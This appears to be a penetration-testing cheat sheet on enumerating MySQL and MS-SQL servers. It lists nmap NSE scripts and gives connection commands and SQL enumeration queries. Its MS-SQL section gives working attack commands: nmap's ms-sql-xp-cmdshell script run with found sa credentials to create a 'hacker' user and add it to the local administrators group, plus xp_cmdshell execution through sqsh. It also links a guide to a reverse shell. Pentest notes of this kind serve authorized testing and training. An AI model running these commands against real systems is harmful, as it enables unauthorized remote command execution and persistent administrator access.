 # MS-SQL and MySQL Enumeration Tools

### mysql
```
$ ls -lh /usr/share/nmap/scripts/ | grep mysql
-rw-r--r-- 1 root root 6.5K Oct 12 09:29 mysql-audit.nse
-rw-r--r-- 1 root root 3.0K Oct 12 09:29 mysql-brute.nse
-rw-r--r-- 1 root root 2.9K Oct 12 09:29 mysql-databases.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-dump-hashes.nse
-rw-r--r-- 1 root root 2.0K Oct 12 09:29 mysql-empty-password.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-enum.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-info.nse
-rw-r--r-- 1 root root 3.7K Oct 12 09:29 mysql-query.nse
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 mysql-users.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-variables.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 mysql-vuln-cve2012-2122.nse
```

```
$ nmap x.x.x.x -p 3306 -sV --script=
```

Connect manually:
```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```
For example
```
mysql -u root -p'root' \
        -h 127.0.0.1 -P 3306 \
        -D local
```

Basic enumeration:
- `show databases;`
- `list databases;`
- `use <database>;`
- `list tables;`
- `show tables;`
- `SELECT * FROM <table>;*`

### ms-sql
```
$ ls -lh /usr/share/nmap/scripts/ | grep ms-sql
-rw-r--r-- 1 root root 3.8K Oct 12 09:29 broadcast-ms-sql-discover.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-brute.nse
-rw-r--r-- 1 root root 6.0K Oct 12 09:29 ms-sql-config.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 ms-sql-dac.nse
-rw-r--r-- 1 root root 4.3K Oct 12 09:29 ms-sql-dump-hashes.nse
-rw-r--r-- 1 root root 7.0K Oct 12 09:29 ms-sql-empty-password.nse
-rw-r--r-- 1 root root 5.9K Oct 12 09:29 ms-sql-hasdbaccess.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-info.nse
-rw-r--r-- 1 root root 3.9K Oct 12 09:29 ms-sql-ntlm-info.nse
-rw-r--r-- 1 root root 4.7K Oct 12 09:29 ms-sql-query.nse
-rw-r--r-- 1 root root 9.2K Oct 12 09:29 ms-sql-tables.nse
-rw-r--r-- 1 root root 6.2K Oct 12 09:29 ms-sql-xp-cmdshell.nse
```
```
$ nmap x.x.x.x -p 1433 -sV --script=exampleScript1.nse,exampleScript2.nse
```
If mssql credentials are found, can use the following nmap script to add a user:
  1. Use nmap mssql script with newly found creds and added a user:
```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net user hacker hacker93 /add'
```
  2. Then added user to admin group with same script:
```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net localgroup administrators hacker /add'
```

Connect manually:
```
$ sqsh -S x.x.x.x -U sa -P password
1> xp_cmdshell 'whoami'
```

or with Impacket:

```
$ /opt/impacket-0.9.21/examples > mssqlclient.py username@x.x.x.x
```

Reference: https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/

